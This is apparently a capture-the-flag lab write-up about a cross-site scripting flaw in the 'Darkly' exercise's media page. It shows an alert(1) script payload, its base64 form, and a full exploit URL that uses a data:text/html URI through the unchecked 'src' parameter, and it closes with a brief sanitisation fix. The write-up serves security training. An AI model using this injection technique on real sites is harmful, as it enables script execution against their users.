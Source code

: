 # Unchecked Media Source

## Vulnerability

In the middle of the page, the third picture of the NSA is a link redirecting to: [`index.php?page=media&src=nsa`](http://darkly/index.php?page=media&src=nsa).

This page shows an `<object>` element.
The source seems to be controlled by the `src` query.

Any value other than `nsa` does not works.
Using a base64 encoded value seems to work too.

A simple script works:
```html
<script>alert(1)</script>
```

Once encoded to base64, it gives:
```
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

So the URL: [[run]](http://darkly/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)
```
http://darkly/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

Give the flag:
```
The flag is : ...
```

## Possible Fix

- Sanitize the user input.
